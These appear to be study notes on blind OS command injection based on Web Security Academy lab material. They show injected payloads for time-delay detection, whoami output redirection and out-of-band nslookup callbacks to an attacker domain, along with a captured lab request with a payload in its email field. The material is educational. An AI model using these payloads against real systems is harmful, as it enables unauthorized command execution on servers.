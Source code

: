 # OS command injection

OS command injection is also known as shell injection. It allows an attacker to execute operating system (OS) commands on the server that is running an application, and typically fully compromise the application and its data.

## Blind OS command injection vulnerabilities

Many instances of OS command injection are blind vulnerabilities. This means that the application does not return the output from the command within its HTTP response. Blind vulnerabilities can still be exploited, but different techniques are required. 
        
   mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com

### Detecting blind OS command injection using time delays
 
  You can use an injected command to trigger a time delay, enabling you to confirm that the command was executed based on the time that the application takes to respond. The ping command is a good way to do this, because lets you specify the number of ICMP packets to send. 

        & ping -c 10 127.0.0.1 &

### Blind OS command injection with output redirection

   Exploiting blind OS command injection by redirecting output

You can redirect the output from the injected command into a file within the web root that you can then retrieve using the browser. For example, if the application serves static resources from the filesystem location 

/var/www/static, then you can submit the following input:

   & whoami > /var/www/static/whoami.txt &

The > character sends the output from the whoami command to the specified file. You can then use the browser to fetch https://0af3008203ae105f84d1d7dc00b3002b.web-security-academy.net/image?filename=output.txt to retrieve the file, and view the output from the injected command. 

### Exploiting blind OS command injection using out-of-band (OAST) techniques

      POST /feedback/submit HTTP/2
      Host: 0a3b009d04c7460785b978660080009a.web-security-academy.net
      Cookie: session=RsOdr2OGqTvLMngAWf4lAr7KxF7zF6si
      User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
      Accept: */*
      Accept-Language: en-US,en;q=0.5
      Accept-Encoding: gzip, deflate, br
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 148
      Origin: https://0a3b009d04c7460785b978660080009a.web-security-academy.net
      Referer: https://0a3b009d04c7460785b978660080009a.web-security-academy.net/feedback
      Sec-Fetch-Dest: empty
      Sec-Fetch-Mode: cors
      Sec-Fetch-Site: same-origin
      Priority: u=0
      Te: trailers

      csrf=GLo6BPgbSSp5C2jThOF1vDyUWxAfUqHx&name=asd&email=||nslookup+x.r7zc1l3dghvxn854kh4x6t0jaag14rsg.oastify.com||&subject=sadf&message=bitch+is+bitch**'

 You can use an injected command that will trigger an out-of-band network interaction with a system that youcontrol, using OAST techniques. For example:

   & nslookup kgji2ohoyw.web-attacker.com &

This payload uses the nslookup command to cause a DNS lookup for the specified domain. The attacker can monitor to see if the lookup happens, to confirm if the command was successfully injected